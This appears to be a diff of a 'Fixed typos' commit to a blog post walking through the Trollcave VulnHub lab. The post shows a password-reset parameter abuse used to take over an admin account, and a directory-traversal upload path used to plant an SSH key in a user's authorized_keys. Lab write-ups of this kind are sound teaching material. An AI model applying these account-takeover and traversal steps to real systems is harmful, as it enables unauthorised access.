

Before and after one commit to swaudo/swaudo.github.io, a Jekyll site: the page built from _posts/2019-08-01-trollcave-walkthrough.md, in a window 1280 px wide. Shown: the part 3086-5000 px from the top of the page at 80% size, without its empty margins (317-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Fixed typos

````diff
--- a/_posts/2019-08-01-trollcave-walkthrough.md
+++ b/_posts/2019-08-01-trollcave-walkthrough.md
@@ -133,14 +133,14 @@
 of this.\n\nso far i've implemented a `password_resets` resource in rails and it's about 90% working except for the email thing. it's very frustrating. if anyone has
 any suggestions about how to get the email working, please drop me a pm\n\n--coderguy\n\t\t","user_id":4,"created_at":"2017-10-23T09:39:43.057Z","updated_at":"2017-10-23T09:39:43.057Z"}{"id":7,"title":"Welcome to the TrollCave!","content":"\nThe Trollcave is a community blogging website for people with a sense of humour. As long as you're not an idiot, we're very friendly. Registration is free, so [what are you waiting for](/register)?\n\t\t","user_id":1,"created_at":"2017-10-23T09:39:43.103Z","updated_at":"2017-10-23T09:39:43.103Z"}<html><body>You are being <a href="http://192.168.251.9/">redirected</a>.</body></html><html><body>You are being <a href="http://192.168.251.9/">redirected</a>.</body></html><html><body>You are being <a href="http://192.168.251.9/">redirected</a>.</body></html>{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}{"status":"404","error":"Not Found"}
 ```
-Remember when reading about:
+When reading the blog we come across a user talking about password_resets:
 
 ```
 so far i've implemented a `password_resets` resource in rails and it's about 90% working except for the email thing. it's very frustrating
 ```
 ![5-4.png](/assets/images/posts/trollcave-vulnhub-walkthrough/5-4.png)
 
-It alludes to using this to reset password.
+Google search tells us to reset the password we use:
 http://192.168.251.9/password_resets/new
 
 ![5-5.png](/assets/images/posts/trollcave-vulnhub-walkthrough/5-5.png)
@@ -149,23 +149,22 @@
 
 
 
-Note the end of the string has the name parameter. We'll abuse this part.
-We already know all the users. How about resetting password for King `http://192.168.251.9/password_resets/edit.9AY5mR6eT1CmgWazJRsdvw?name=King`
+Note the end of the string has the parameter [name]. We'll abuse this part.
+Since we already know all the users. How about resetting password for King `http://192.168.251.9/password_resets/edit.9AY5mR6eT1CmgWazJRsdvw?name=King`
 
 
 
 
-Go to admin panel and enable file upload
+Once we're logged in we go to admin panel and enable file upload
 
 
 
-Reading through through the users blogs we come across
+Reading through the user King blogs we come across
 
 
-This tells us we've got a user called `rails` and we've also enabled file upload which was previpusly disabled.
-Attempting to u plad and execute ruby shell proves unfruitful.
+This tells us we've got a user called `rails`. Attempting to upload and execute reverse shell (php or ruby) proves unfruitful.
 
-We know we already running ssh. We shall then upload a ssh key using directory traversal into the home directory of
+But not all hope is lost the box is running ssh. How about uploadindg a ssh key we control via directory traversal into the home directory of rails.
 
 ../../../../../../../../home/rails/.ssh/authorized_keys
 
@@ -198,7 +197,7 @@
 -rw-r--r-- 1 king king    0 Sep 16  2016 .sudo_as_admin_successful
 
 He's running a program called
-
+```
 drwxrwxr-x 2 king king 4.0K Sep 28  2017 calc
 
 rails@trollcave:/home/king/calc$ cat calc.js
@@ -291,7 +290,7 @@
 // Start the server and route the requests
 start(route);
 rails@trollcave:/home/king/calc$
-
+```
 http.createServer(onRequest).listen(8888, '127.0.0.1');
 console.log("Server started");
 
````
